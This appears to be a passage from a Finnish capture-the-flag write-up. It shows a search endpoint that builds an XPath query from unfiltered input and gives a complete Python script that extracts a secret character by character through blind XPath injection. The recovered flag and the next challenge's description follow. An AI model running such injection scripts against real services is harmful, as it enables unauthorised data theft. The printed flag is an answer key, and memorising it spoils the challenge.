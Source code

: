 ```python
name = request.json.get("search", "")
query = "/military/district/staff[name='{}']".format(name)
```

Tieto haetaan siis xpathin avulla xml tiedostosta.
Mitään suodatusta ei ole tehty joten voimme suorittaa xpath injection.
Emme voi suoraan hakea tietoa vaan pitää se arvailla sokeasti kuten tehtävässä Goose Hunt.


```python
import requests
import urllib3
import string
urllib3.disable_warnings()

flag = ""
u="http://165.227.232.115:30722/api/search"
headers={'content-type': 'application/json'}

for j in [1,2]:
    l = 0
    for i in range(50):
        payload='{"search": "\' or string-length((//selfDestructCode)[%s])=%s or \'a\'=\'"}' % (j,i)
        r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
        if ("exists" in r.text):
            l = i
            break
    for i in range(1, l + 1):
        for c in string.printable: 
            if c not in ['*','+','.','?','|']:
                payload='{"search": "\' or substring((//selfDestructCode)[%s],%s,1)=\'%s\' or \'a\'=\'"}' % (j,i,c)
                r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
                if ("exists" in r.text): 
                    flag += c
                    print("Flag: " + flag) 
                    break
```

(saadussa flagissa on {} ja _ korvattu merkillä ', tämä pitää manuaalisesti korjata)
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}

---

### ~~The Galactic Times~~
*sanre*
Difficulty: Medium

The Galactic Times is a monthly Alien newspaper that focuses on news from around the Galaxy. This month's issue is focused on the Human race and contains some very controversial articles. The newspaper reportedly contains a restricted endpoint with some Alien secrets. Can you find a way to view the forbidden pages?
